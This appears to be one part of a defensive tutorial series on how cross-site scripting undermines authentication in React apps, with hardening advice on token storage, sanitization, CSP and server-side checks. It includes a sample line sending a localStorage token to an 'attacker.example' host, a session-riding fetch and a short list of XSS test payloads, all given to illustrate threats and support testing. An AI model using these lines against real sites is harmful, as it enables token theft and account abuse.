


# Part 081 — XSS Impact on React Auth

React escapes text by default.

That helps.

It does not make the app immune to XSS.

The wrong mental model is:

```txt
React escapes output, therefore XSS is solved.
```

The better mental model is:

```txt
React reduces accidental HTML injection, but the browser is still an executable runtime.
Any attacker-controlled script that runs inside your origin becomes an in-origin actor.
```

In authentication terms, XSS is not only a rendering bug.

It is an **auth boundary collapse**.

Once attacker JavaScript runs inside your origin, it can often:

```txt
read non-HttpOnly storage
call same-origin APIs
submit authenticated requests
observe rendered sensitive data
modify UI decisions
hook your auth client
exfiltrate CSRF tokens
trigger privileged UI flows
pollute client-side caches
register malicious event handlers
mislead the user into approving sensitive actions
```

That is why XSS must be treated as one of the highest-impact threats in React authentication architecture.

---

## 1. What XSS means in a React auth system

Cross-site scripting means untrusted input becomes executable browser behavior.

In React apps, XSS commonly appears through:

```txt
unsafe HTML rendering
unsafe markdown rendering
unsafe rich text rendering
unsafe URL rendering
unsafe third-party widgets
unsafe analytics snippets
unsafe dynamic script injection
unsafe postMessage handling
unsafe template interpolation outside React
unsafe server-rendered HTML injection
unsafe hydration data serialization
unsafe micro-frontend boundaries
unsafe browser extension assumptions
```

The key is not whether the payload was inserted using React.

The key is whether attacker-controlled content can execute in the origin where your authenticated app lives.



React helps with `Safe Text Projection`.

React does not protect every browser sink.

---

## 2. Why XSS is worse than token theft

A common explanation says:

```txt
If you store token in localStorage, XSS steals it.
```

True, but incomplete.

With XSS, the attacker does not always need to steal the token.

They can act from inside the authenticated origin.

That means even with `HttpOnly` cookies, XSS can still perform many actions as the user, because browser cookies are automatically attached to same-origin requests.

Compare the impact.

| Storage/session design | Can XSS read credential? | Can XSS perform same-origin actions? | Can XSS read rendered/API data? | Main remaining risk |
|---|---:|---:|---:|---|
| Access token in `localStorage` | Yes | Yes | Yes | Token theft + session riding |
| Access token in `sessionStorage` | Yes | Yes | Yes | Token theft while tab lives |
| Access token in JS memory | Usually yes if runtime is compromised | Yes | Yes | Hook auth client / call APIs |
| `HttpOnly` cookie session | No direct cookie read | Yes | Yes | Session riding / UI manipulation |
| BFF with `HttpOnly` cookie | No direct downstream token read | Yes through BFF | Yes | Same-origin action abuse |

`HttpOnly` reduces credential exfiltration.

It does not make XSS harmless.

The design goal is not:

```txt
Make XSS impossible to exploit.
```

That is not realistic.

The design goal is:

```txt
Prevent XSS where possible.
Reduce blast radius where prevention fails.
Make sensitive actions require stronger server-side checks.
Detect suspicious behavior.
Recover safely.
```

---

## 3. Auth impact taxonomy

XSS against a React authenticated app has several distinct impacts.

Do not collapse all of them into “token stolen”.

### 3.1 Credential extraction

If credentials are readable by JavaScript, attacker code can exfiltrate them.

Examples:

```txt
localStorage.access_token
sessionStorage.refresh_token
IndexedDB token cache
non-HttpOnly cookie
window.__BOOTSTRAP__.token
Redux persisted auth state
TanStack Query persisted session projection
service worker cache containing auth response
```

Credential extraction enables replay outside the browser.

This is worse than in-browser session riding because the attacker can use the credential from another machine until expiry/revocation.

### 3.2 Session riding

If the app uses `HttpOnly` cookies, attacker JS cannot read the session cookie.

But it can still execute:

```ts
await fetch('/api/cases/CASE-123/approve', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'content-type': 'application/json',
    'x-csrf-token': stolenOrReadableCsrfToken,
  },
  body: JSON.stringify({ reason: 'approved by injected script' }),
});
```

If the CSRF token is readable in the DOM, JavaScript memory, or a non-HttpOnly cookie, XSS can use it.

This is why OWASP notes that XSS can defeat many CSRF mitigations.

### 3.3 Data exfiltration

XSS can read data that your app renders or fetches.

Examples:

```txt
user profile
case details
permissions projection
tenant list
audit hints
admin table rows
hidden form fields
preloaded SSR payload
React Server Component serialized props
query cache contents
```

Even if the attacker cannot call privileged mutations, the confidentiality damage may already be severe.

### 3.4 UI decision manipulation

React auth UI often contains logic like:

```tsx
if (can('case.approve', caseRecord)) {
  return <ApproveButton />;
}
```

XSS can monkey-patch functions, modify runtime state, alter DOM, hook network calls, or trick the user.

Examples:

```txt
replace denial reason text
hide impersonation banner
modify approval confirmation copy
inject fake session-expired modal
redirect to attacker-controlled re-login page
trigger click handlers after user gesture
alter local permission cache
```

This is why frontend permission checks are only exposure control.

Server-side enforcement remains mandatory.

### 3.5 Auth state corruption

Injected script can mutate client-side state:

```txt
authStore.currentUser
permissionStore.snapshot
router metadata
query cache
local feature flag cache
selected tenant
current assurance level projection
```

If the backend validates correctly, corrupted frontend state causes bad UX, not unauthorized server writes.

If the backend trusts frontend state, corrupted frontend state becomes access control bypass.

### 3.6 Supply-chain execution

XSS-like impact can come from trusted scripts too:

```txt
compromised npm dependency
compromised tag manager
over-permissive analytics script
malicious browser extension
third-party chat widget
remote micro-frontend
CDN script compromise
```

The result is the same:

```txt
code runs inside the origin
```

For auth, the origin is the capability boundary.

---

## 4. React-specific XSS surfaces

React reduces many text injection bugs, but advanced React apps add surfaces back.

### 4.1 `dangerouslySetInnerHTML`

This API is named correctly.

It bypasses React text escaping and writes HTML directly.

Bad:

```tsx
export function Announcement({ html }: { html: string }) {
  return <div dangerouslySetInnerHTML={{ __html: html }} />;
}
```

Better shape:

```tsx
import DOMPurify from 'dompurify';

export function SafeRichText({ html }: { html: string }) {
  const sanitized = DOMPurify.sanitize(html, {
    USE_PROFILES: { html: true },
  });

  return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
}
```

But even this is not enough as a system policy.

You need a central boundary:

```tsx
type TrustedHtml = string & { readonly __brand: 'TrustedHtml' };

export function sanitizeTrustedHtml(untrusted: string): TrustedHtml {
  return DOMPurify.sanitize(untrusted, {
    USE_PROFILES: { html: true },
  }) as TrustedHtml;
}

export function TrustedHtmlView({ value }: { value: TrustedHtml }) {
  return <div dangerouslySetInnerHTML={{ __html: value }} />;
}
```

Now raw strings cannot casually flow into the dangerous sink.

The app has an explicit reviewable sanitization boundary.

### 4.2 Markdown rendering

Markdown is often treated as safe text.

That is a mistake.

Markdown libraries may support raw HTML, links, images, custom components, plugins, or syntax extensions.

Dangerous patterns:

```tsx
<Markdown>{userProvidedMarkdown}</Markdown>
```

especially if raw HTML is enabled.

Safer policy:

```txt
Disable raw HTML by default.
Sanitize generated HTML if raw HTML is required.
Validate URL protocols.
Do not allow arbitrary React component mapping from user content.
Apply CSP.
Treat plugin chain as trusted code.
```

### 4.3 URL injection

React escaping does not make every URL safe.

Bad:

```tsx
<a href={userProvidedUrl}>Open</a>
```

If `userProvidedUrl` is `javascript:...`, behavior depends on context/browser/framework behavior and may become dangerous.

Build a URL policy:

```ts
const ALLOWED_PROTOCOLS = new Set(['https:', 'mailto:']);

export function toSafeExternalHref(raw: string): string | null {
  try {
    const url = new URL(raw);

    if (!ALLOWED_PROTOCOLS.has(url.protocol)) {
      return null;
    }

    return url.toString();
  } catch {
    return null;
  }
}
```

For internal redirects, use a separate policy.

Do not reuse external URL validation for return URL validation.

### 4.4 Inline event handlers through raw HTML

React JSX event handlers are functions, not strings.

But raw HTML can reintroduce browser inline handlers:

```html

```

Sanitization policy must remove event handler attributes.

CSP should also block inline script where possible.

### 4.5 Hydration payload injection

SSR apps often embed data in HTML:

```html
<script id="__APP_DATA__" type="application/json">
  { ... }
</script>
```

If serialization is wrong, data can break out of the script context.

Bad mental model:

```txt
JSON.stringify is always safe inside script tags.
```

Better:

```txt
Use framework-supported serialization.
Escape script-breaking sequences.
Never include secrets/tokens in bootstrap payload.
Keep permission projection minimal.
Avoid embedding sensitive policy traces.
```

### 4.6 Micro-frontends

A remote micro-frontend loaded into the same origin is not a tenant.

It is code running inside the same authority boundary.

If it can execute JavaScript in your app origin, it can interact with auth state, fetch APIs, and DOM.

Use separate origins for less-trusted surfaces.

```txt
same origin = same browser authority
separate origin = enforceable browser boundary
iframe sandbox = partial containment if configured correctly
```

### 4.7 Tag managers and analytics

Tag managers are often forgotten in threat models.

They can run scripts after deployment without code review.

For authenticated applications, especially regulated systems, use a strict policy:

```txt
no third-party tag manager on authenticated surfaces by default
separate public marketing origin from app origin
explicit allowlist for scripts
CSP report-only before enforcement
no auth/session/user permission data in analytics payload
```

---

## 5. XSS and token storage decisions

Part 009-020 already separated session models.

Here is the XSS-specific lens.

### 5.1 LocalStorage token

```txt
XSS impact: catastrophic credential theft
```

Attacker can read token and replay elsewhere.

The token survives refresh/reopen until expiry.

```ts
const token = localStorage.getItem('access_token');
navigator.sendBeacon('https://attacker.example/steal', token ?? '');
```

Do not store high-value bearer tokens in `localStorage`.

### 5.2 SessionStorage token

```txt
XSS impact: still credential theft, but tab-scoped
```

The credential is readable while the tab lives.

The blast radius is smaller than persistent localStorage, but not safe.

### 5.3 Memory-only access token

```txt
XSS impact: token may still be reachable through runtime behavior
```

Memory-only helps against passive persistence theft, but attacker code can:

```txt
call the API client
patch fetch
patch auth getter
read closures indirectly in some designs
wait for refresh result
invoke privileged actions
```

Memory-only is better than localStorage, not an XSS solution.

### 5.4 HttpOnly cookie session

```txt
XSS impact: no direct cookie read, but same-origin action abuse remains
```

HttpOnly protects cookie confidentiality from JavaScript.

It does not prevent injected JavaScript from sending requests that include cookies automatically.

This is why sensitive actions need additional server-side protections.

### 5.5 BFF token vault

```txt
XSS impact: downstream tokens hidden, BFF callable
```

BFF prevents browser JavaScript from directly holding resource server tokens.

But XSS can still call BFF endpoints with the user's app session.

Design BFF endpoints as product operations with server-side authorization.

Do not expose generic token proxy endpoints.

---

## 6. Sensitive action protection under XSS

XSS can click buttons and call APIs.

So sensitive actions need extra checks that attacker JS cannot trivially satisfy.

Examples:

```txt
approve enforcement action
export personal data
change role
invite admin
delete tenant
rotate API key
change bank/account destination
disable MFA
generate long-lived access token
```

Layered controls:

| Control | Helps against XSS? | Notes |
|---|---:|---|
| Server-side authorization | Yes | Required baseline. |
| HttpOnly cookie | Partially | Prevents direct credential theft. |
| CSRF token | Weak under XSS if readable | XSS can often read/use it. |
| Step-up auth | Yes, if server-enforced | Requires fresh assurance. |
| Re-authentication | Yes, if not cached too loosely | Protects critical mutation. |
| User interaction confirmation | Partially | XSS can manipulate UI; stronger with WebAuthn/user verification. |
| Transaction signing | Stronger | Bind approval to server challenge/details. |
| Rate limiting/anomaly detection | Yes | Limits blast radius. |
| Audit + alerting | Yes | Detection and response. |

A mature pattern:



Important:

```txt
The server must know which action was challenged.
```

A generic “recently stepped up” flag may be too broad for very sensitive operations.

---

## 7. XSS-safe auth UI design principles

### Principle 1: Do not store secrets in React state

Bad:

```ts
const authState = {
  accessToken,
  refreshToken,
  user,
};
```

Better:

```ts
const sessionProjection = {
  status: 'authenticated',
  user: { id, displayName, email },
  tenant: { id, name },
  permissionsVersion,
};
```

The React tree needs projection, not credential authority.

### Principle 2: Minimize bootstrap payload

Do not embed:

```txt
access token
refresh token
full permission graph
policy trace
admin-only claims
all tenant memberships if not needed
raw audit data
```

Embed only what the first paint needs.

Then fetch scoped data through authenticated APIs.

### Principle 3: Do not make frontend claims authoritative

Never let APIs accept:

```json
{
  "userRole": "admin",
  "permissions": ["case.approve"],
  "tenantIdFromClientState": "tenant-a"
}
```

as proof.

Client state is a request input, not authority.

### Principle 4: Treat unsafe rendering as a security-reviewed component

Make dangerous sinks visible in code review.

```txt
dangerouslySetInnerHTML
innerHTML
outerHTML
insertAdjacentHTML
new Function
eval
setTimeout(string)
setInterval(string)
dynamic script injection
iframe srcdoc
raw markdown HTML
```

Create lint rules if possible.

### Principle 5: Separate untrusted content origins

For rich untrusted content, consider:

```txt
render in a separate origin
sandbox iframe
no same-origin cookies
no access to app localStorage/sessionStorage
no app JavaScript APIs
strict CSP
postMessage protocol with schema validation
```

This is especially relevant for:

```txt
user-generated HTML
document preview
email preview
case evidence preview
third-party reports
custom templates
plugins
```

---

## 8. Content Security Policy as blast-radius reduction

CSP is not a substitute for fixing XSS.

It is a containment layer.

A strong CSP can reduce exploitability by blocking inline scripts, restricting script sources, preventing framing, and reporting violations.

A rough production direction:

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-<server-generated-nonce>' 'strict-dynamic';
  object-src 'none';
  base-uri 'self';
  frame-ancestors 'none';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  style-src 'self' 'nonce-<server-generated-nonce>';
  report-to csp-endpoint;
```

But do not cargo-cult this.

CSP must match runtime:

```txt
SSR framework
bundler output
inline hydration scripts
third-party scripts
style injection strategy
image/CDN domains
WebSocket/SSE endpoints
analytics policy
error-reporting endpoint
```

Roll out CSP in phases:

```txt
1. inventory scripts and sinks
2. deploy Report-Only
3. collect violations
4. remove unnecessary inline/eval usage
5. enforce on low-risk pages
6. enforce on authenticated surfaces
7. monitor regressions
```

---

## 9. Trusted Types

Trusted Types can help prevent DOM XSS by restricting dangerous DOM sinks to values created by approved policies.

This is powerful for large React apps because it turns unsafe HTML insertion into a controlled boundary.

Conceptual shape:

```ts
// Browser API shape, simplified.
const policy = window.trustedTypes?.createPolicy('app-html', {
  createHTML(input) {
    return DOMPurify.sanitize(input);
  },
});

const safeHtml = policy?.createHTML(untrustedHtml);
```

Then CSP can require Trusted Types:

```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types app-html;
```

Use this carefully.

Adoption requires compatibility testing with:

```txt
React version
framework runtime
third-party UI libraries
markdown/rich text libraries
analytics/scripts
legacy code
```

---

## 10. React auth hardening patterns

### 10.1 Central auth client, no token export

Bad:

```ts
export function getAccessToken() {
  return authStore.accessToken;
}
```

Better:

```ts
export async function authenticatedFetch(input: RequestInfo, init: RequestInit = {}) {
  return authTransport.send(input, init);
}
```

Do not expose token getters across the app.

Expose operations.

```txt
bad: give app code the token
better: give app code a constrained request boundary
best in BFF: browser never sees downstream token
```

### 10.2 Clear separation between projection and credential

```ts
type SessionProjection = {
  status: 'anonymous' | 'authenticated' | 'expired' | 'degraded';
  user?: {
    id: string;
    displayName: string;
  };
  tenant?: {
    id: string;
    name: string;
  };
  permissionEpoch?: string;
};
```

Projection can be in React state.

Credential should not be casually exposed to React components.

### 10.3 Secure event bus

Auth events are useful:

```txt
login
logout
session_expired
permission_epoch_changed
tenant_switched
step_up_completed
```

But do not put secrets in events.

Bad:

```ts
authEvents.emit('token_refreshed', { accessToken });
```

Better:

```ts
authEvents.emit('session_changed', {
  epoch,
  status: 'authenticated',
});
```

### 10.4 Safe logging

Never log:

```txt
access token
refresh token
session id
CSRF token
authorization header
cookie header
raw ID token
full JWT claims
policy trace with sensitive attributes
```

Use correlation IDs.

```ts
logger.warn('auth_denied', {
  correlationId,
  reasonCode: 'resource_state_denied',
  action: 'case.approve',
  resourceType: 'case',
});
```

### 10.5 No secrets in analytics

Analytics payloads are often sent to third parties.

Do not include:

```txt
email unless explicitly allowed
tenant ID if sensitive
permission list
role list
case ID if regulated
query text if sensitive
access denial reason if sensitive
```

Use coarse event names and internal correlation.

---

## 11. DOMPurify and sanitizer boundary

Sanitization must be:

```txt
centralized
configured
versioned
tested
reviewed
paired with CSP where possible
```

Bad:

```tsx
const sanitized = someLibrary(html);
return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
```

Better:

```ts
export type TrustedRichTextHtml = string & {
  readonly __trustedRichTextHtml: unique symbol;
};

export function sanitizeRichTextHtml(input: string): TrustedRichTextHtml {
  return DOMPurify.sanitize(input, {
    USE_PROFILES: { html: true },
    ALLOWED_URI_REGEXP: /^(?:(?:https?|mailto):|[^a-z]|[a-z+.-]+(?:[^a-z+.-:]|$))/i,
  }) as TrustedRichTextHtml;
}
```

Then:

```tsx
export function RichTextHtml({ value }: { value: TrustedRichTextHtml }) {
  return <div dangerouslySetInnerHTML={{ __html: value }} />;
}
```

This makes the unsafe sink statically visible.

---

## 12. XSS and authorization failure modes

XSS often converts weak authorization assumptions into real bypasses.

| Weak assumption | XSS consequence |
|---|---|
| “The button is hidden, so user cannot do it.” | Attacker calls endpoint directly. |
| “The UI only sends allowed tenant ID.” | Attacker changes request body/path. |
| “The form does not expose admin field.” | Attacker adds field to payload. |
| “The decoded JWT says role is admin.” | Attacker modifies client state if server trusts it. |
| “The permission cache says allowed.” | Attacker mutates cache. |
| “CSRF token is in DOM meta tag.” | Attacker reads and uses it. |
| “User must confirm in modal.” | Attacker rewrites modal text or triggers action. |

The invariant:

```txt
All authorization facts received from browser must be treated as untrusted input.
```

---

## 13. XSS-aware API design

The API should assume the browser can be hostile.

For sensitive operations, require:

```txt
server-side permission check
resource state check
tenant membership check
fresh session / step-up when needed
CSRF protection if cookie-based
idempotency for unsafe retries
rate limits
audit event
structured denial
```

Example:

```ts
type ApproveCaseCommand = {
  caseId: string;
  expectedVersion: string;
  reason: string;
  stepUpChallengeId?: string;
};
```

Server-side logic:

```txt
1. authenticate session from server authority
2. resolve subject from session
3. load case by ID within tenant boundary
4. authorize subject can approve this case
5. verify case is in approvable state
6. verify separation of duties
7. verify step-up if required
8. verify expected version
9. commit mutation atomically
10. append audit event
```

No client-side role/permission field is trusted.

---

## 14. Testing XSS impact on auth

Do not only test whether XSS alert pops.

Test whether XSS can compromise auth invariants.

### 14.1 Dangerous sink tests

Scan for:

```txt
dangerouslySetInnerHTML
innerHTML
outerHTML
insertAdjacentHTML
eval
new Function
setTimeout with string
setInterval with string
srcdoc
javascript: URLs
raw markdown HTML
```

### 14.2 Storage exposure tests

Assert no high-value credential in:

```txt
localStorage
sessionStorage
IndexedDB
Cache API
window globals
bootstrap script JSON
Redux persisted state
query persisted cache
non-HttpOnly cookies
```

### 14.3 API action abuse tests

Simulate an in-origin attacker script:

```ts
await page.evaluate(async () => {
  await fetch('/api/cases/123/approve', {
    method: 'POST',
    credentials: 'include',
    headers: { 'content-type': 'application/json' },
    body: JSON.stringify({ reason: 'xss attempt' }),
  });
});
```

Expected result depends on user permission and step-up requirements.

But the important invariant is:

```txt
server authorization still decides
```

### 14.4 CSP tests

Automate assertions:

```txt
no unsafe-inline in production script-src unless deliberately justified
no unsafe-eval unless unavoidable and isolated
no wildcard script-src on authenticated app
frame-ancestors configured
base-uri configured
CSP reports monitored
```

### 14.5 Rich text payload tests

Use payload classes:

```txt
<script>alert(1)</script>

<a href="javascript:alert(1)">click</a>
<svg onload=alert(1)>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
math/svg namespace payloads
encoded payload variants
case variants
```

Do not rely on a single payload.

---

## 15. Observability for XSS-resistant auth

Useful events:

```txt
csp_violation_reported
dangerous_html_rendered
sanitizer_blocked_content
csrf_validation_failed
sensitive_action_step_up_required
sensitive_action_denied_without_fresh_auth
unexpected_auth_epoch_change
permission_epoch_mismatch
authenticated_api_called_from_unusual_flow
```

Do not log the payload verbatim if it may contain PII or exploit code that pollutes logs.

Record:

```txt
correlation ID
user/session hash
tenant hash
route/action
sanitizer rule ID
CSP directive
blocked URI host category
reason code
```

---

## 16. Production checklist

Before shipping authenticated React surfaces:

```txt
[ ] No access/refresh token in localStorage/sessionStorage.
[ ] No token/secret in SSR bootstrap payload.
[ ] No raw dangerouslySetInnerHTML except approved TrustedHtml boundary.
[ ] Rich text and markdown are sanitized and URL-filtered.
[ ] URL rendering validates protocol and destination.
[ ] Return URL policy is internal-only and separately tested.
[ ] CSP exists at least in report-only, preferably enforced on authenticated app.
[ ] HttpOnly cookies are used where possible for app session.
[ ] Sensitive actions require server-side authorization and, when needed, step-up.
[ ] CSRF token is not treated as XSS protection.
[ ] API never trusts frontend role/permission fields.
[ ] Query/cache/persisted storage do not contain sensitive auth material.
[ ] Third-party scripts are inventoried and restricted.
[ ] Security logs avoid secrets and include correlation IDs.
[ ] XSS regression tests cover dangerous sinks and auth impact.
```

---

## 17. Core takeaway

XSS in React auth is not just:

```txt
attacker can run alert(1)
```

It is:

```txt
attacker code may become an in-origin actor with access to your UI, state, APIs, and user session behavior.
```

Therefore the architecture must assume:

```txt
React state is not authority.
Browser storage is not a vault.
HttpOnly cookies reduce theft, not action abuse.
CSRF tokens do not save you from XSS.
Server-side authorization remains the enforcement boundary.
Sensitive actions require stronger server-verified ceremonies.
```

The practical design target:

```txt
Prevent injection first.
Contain execution second.
Reduce credential exposure third.
Server-enforce every privileged action always.
```

---

## References

- OWASP Cross Site Scripting Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP HTML5 Security Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html
- OWASP Session Management Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html
- OWASP Cross-Site Request Forgery Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- React `dangerouslySetInnerHTML` docs — https://react.dev/reference/react-dom/components/common#dangerously-setting-the-inner-html
- MDN Content Security Policy — https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- MDN Trusted Types API — https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API
